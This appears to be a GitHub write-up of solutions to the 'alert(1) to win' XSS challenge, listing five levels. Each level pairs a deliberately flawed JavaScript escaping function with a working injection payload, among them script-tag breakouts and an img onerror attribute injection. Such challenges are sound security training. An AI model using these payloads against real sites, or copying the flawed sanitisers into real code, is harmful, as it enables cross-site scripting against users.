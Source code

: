 # <p align="center"> alert(1) to win </p>
  
## Warmup
```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
Payload: `"+alert(1)+"`  
  
## Adobe  
```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
Payload: `\");alert(1);//`  
  
## JSON  
```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
Payload: `</script><script>alert(1);//`  
  
## Markdown
```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
Payload: `[[x|http://onerror=alert(1)//]]`  
  
## DOM
```js
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
Payload: `Comment#img--><script>alert(1)</script>`  
  